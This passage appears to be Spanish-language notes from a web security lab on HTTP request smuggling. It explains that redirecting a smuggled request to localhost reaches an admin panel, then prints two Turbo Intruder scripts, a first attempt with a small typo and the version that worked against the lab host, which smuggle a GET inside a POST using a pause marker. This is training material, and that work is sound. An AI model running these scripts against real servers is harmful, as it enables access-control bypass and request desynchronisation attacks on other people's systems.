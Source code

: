 Aquí modificamos la petición smuggleada para apuntar al host localhost, lo que nos permite eludir restricciones de acceso y alcanzar el panel de administración.

El resultado confirma el acceso interno al panel, validando que el ataque puede romper controles de acceso basados en IP.

Solucion
Entonces para efectuar el payload vamos a ocupar la extencion turbo intruder del BS y la configuramos de esta manera

payload (# Find more example scripts at https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/default.py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    attacker_request = """POST /resources HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: %$

%$"""

    smuggled_request = """GET /error HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    normal_request = """GET / HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    engine.queue(attacker_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)

def handleResponse(req, interesting):
    table.add(req))
    ![Pasted_image_20250812234714.png](Imagenes/Pasted_image_20250812234714.png)
    pero este payload fue el que me funciono 
    (def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    smuggled_request = """GET /error HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    attacker_request = """POST /resources HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: %s

%s"""

    normal_request = """GET / HTTP/1.1
Host: 0ad5004303587aa0806d9ef000090092.web-security-academy.net

"""

    engine.queue(attacker_request, [str(len(smuggled_request)), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)

def handleResponse(req, interesting):
    table.add(req)
)

![Pasted_image_20250812235400.png](Imagenes/Pasted_image_20250812235400.png)
